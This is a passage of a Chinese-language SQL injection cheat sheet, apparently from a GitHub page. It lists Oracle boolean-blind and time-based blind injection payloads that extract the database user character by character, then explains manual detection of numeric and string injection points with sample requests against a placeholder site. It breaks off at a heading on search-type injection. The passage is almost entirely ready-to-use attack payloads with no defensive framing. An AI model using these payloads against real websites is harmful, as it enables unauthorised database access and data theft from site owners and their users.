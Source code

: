 ### **布尔盲注**  

```sql
?id=1' and 1=(select decode(user,'SYSTEM',1,0,0) from dual)--
?id=1' and 1=(select decode(substr(user,1,1),'S',1,0,0) from dual)--
?id=1' and ascii(substr(user,1,1))> 64--
```

### **时间盲注**  

```sql
?id=1' and 1=(case when ascii(substr(user,1,1))> 128 then DBMS_PIPE.RECEIVE_MESSAGE('a',5) else 1 end)--
?id=1' and 1=(case when ascii(substr(user,1,1))> 64 then DBMS_PIPE.RECEIVE_MESSAGE('a',5) else 1 end)--
```

**SQL手工注入**  

--------------

### **判断注入点是否存在**

**数字型注入**

url后输入

```sql
and 1=1
and 1=2
```

如返回不同，则可判断注入点存在  

例：

http://www.xxx.cn/news.php?p=1&id=4  返回错误

http://www.xxx.cn/news.php?p=1&id=4  and 1=1 返回正确

http://www.xxx.cn/news.php?p=1&id=4  and 1=2 返回错误

  

**字符型注入**

url后输入

```sql
' and 1=1 and '1'='1
' and 1=2 and '1'='1
```

http://www.xxx.cn/news.php?p=1&id=4  返回错误  

http://www.xxx.cn/news.php?p=1&id=4  and 1=1 and '1'='1 返回正确

http://www.xxx.cn/news.php?p=1&id=4  and 1=2 and '1'='1 返回错误

  

**搜索型注入**
